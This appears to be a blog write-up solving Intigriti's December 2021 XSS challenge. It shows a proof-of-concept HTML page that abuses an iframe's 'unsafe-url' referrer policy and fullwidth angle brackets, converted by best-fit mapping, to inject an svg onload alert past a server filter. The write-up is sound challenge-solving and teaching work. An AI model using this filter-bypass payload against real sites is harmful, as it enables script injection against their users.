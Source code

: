 ```yaml
---
layout: single
title: Intigriti’s December XSS Challenge By E1u5iv3F0x
date: 2021-12-26
classes: wide
tags:
  - Intigriti
  - XSS
  - Challenge
  - E1u5iv3F0x
---
```


Weak referrer policy and best-fit mapping transformations lead to cross-site scripting.

![share](/assets/images/intigriti/2021/12/share.jpg)

## TL;DR

The solution that I came up with consists of two flaws: a weak referrer policy and a best-fit mapping transformation. If you are not familiar with best-fit mapping, here is a brief description from [Netsparker](https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/unicode-transformation-best-fit-mapping/).

> A best-fit mapping occurs when one Unicode character is substituted by a similar looking character. This might happen, for example, if a Unicode string is converted to an ASCII string. Due to the vast differences in the amount of available characters, many encoding functions try to map complex Unicode characters to a similarly looking character in ASCII. Á becomes A, ò becomes o, and so on.

## Overview

The challenge seems simple at first glance. You click on a cracker until it breaks an reveals more elements.

![merry xmas](/assets/images/intigriti/2021/12/merry-xmas.png)

This is later skipped by adding a query parameter `open=true` (the value could be anything).

I was able to quickly identify one source of user input. It is the `payload` query parameter, which gets set after submitting a value inside the cracker’s hidden elements. The input is then reflected onto the page inside a heading.

Here an example result with the query parameters `?open=y&payload=example`:

![example payload](/assets/images/intigriti/2021/12/example-payload.png)

The next logical step is to try and inject HTML. However, it looks like there is a strong filter on the server-side. Everything between angle brackets is removed, including the brackets.

![filter](/assets/images/intigriti/2021/12/filter.png)

My next attempt is to use unicode characters. Sometimes the server side transforms unicode characters into regular ASCII. This is also known as the best-fit mapping, where unknown characters are matched with closest looking characters. I even found a great article on this subject. I chose to use a fullwidth [less-than](https://util.unicode.org/UnicodeJsps/character.jsp?a=FF1C) and [greater-than](https://util.unicode.org/UnicodeJsps/character.jsp?a=FF1E) signs.

Unfortunately, the result is not transformed into ASCII.

![best-fit mapping attempt](/assets/images/intigriti/2021/12/best-fit-mapping-attempt.png)

Here is where I am at a dead-end once again. Nothing came to mind that could work.

Fortunately, Intigriti’s tip came out and gave me a new idea!

![intigriti's tip](/assets/images/intigriti/2021/12/intigriti-tip.png)

I didn’t even notice that when adding a payload parameter that an HTML comment saying *“Referer: “* appears.

So, I made a quick exploit, in order to add value to the reflected referrer.

```html
<!DOCTYPE html>

<head>
    <script>
        if (location.href.indexOf("payload") < 0)
            location = location.href + '?payload=example';
    </script>
</head>

<body>
    <iframe src="https://challenge-1221.intigriti.io/challenge/index.php?payload=x&open=y"
        height="1000px" width="1000px"></iframe>
</body>

</html>
```

I used VS Code’s Live server extension to serve my PoC on port 5500. However, upon visiting `127.0.0.1:5500/index.html?payload=example` the result is missing the referrer’s path and is only showing the domain.

![example referrer payload](/assets/images/intigriti/2021/12/referrer-reflection.png)

I looked up information about iframe referrer policies and found [this page](https://www.w3schools.com/tags/att_iframe_referrerpolicy.asp). In the Attribute Values table there is an `unsafe-url` option which might just do the trick.

![referrerpolicy values](/assets/images/intigriti/2021/12/referrerpolicy-values.png)

Here is the result of adding `referrerpolicy=”unsafe-url”` to the frame.

![example referrer payload](/assets/images/intigriti/2021/12/example-referrer-payload.png)

Now, after injecting text, it’s time to try HTML as well. The payload is now changed to `127.0.0.1:5500/index.html?payload=--></h4><svg+onload=alert(document.domain)>`.

![encoded referrer payload](/assets/images/intigriti/2021/12/encoded-referrer-payload.png)

The brackets get encoded into HTML entities. This is troublesome since there is no way of injecting any kind of code with encoded brackets.

Here is where I go back to the best-fit mapping method. I modify my exploit to swap the angle bracket characters with the fullwidth signs from before.

```html
<!DOCTYPE html>

<head>
    <script>
        if (location.href.indexOf("payload") < 0)
            location = location.href + '?payload=--></h4><svg+onload=alert(document.domain)>'
                .replaceAll("<", "\uFF1C")
                .replaceAll(">", "\uFF1E");
    </script>
</head>

<body>
    <iframe
        src="https://challenge-1221.intigriti.io/challenge/index.php?payload=x&open=y" 
        referrerpolicy="unsafe-url"
        height="1000px" width="1000px"
    ></iframe>
</body>

</html>
```

The result is:

![injection](/assets/images/intigriti/2021/12/injection.png)

Which immediately triggers the alert upon visiting `http://127.0.0.1:5500/`.

![alert](/assets/images/intigriti/2021/12/alert.png)

Thanks for reading, I hope this was helpful!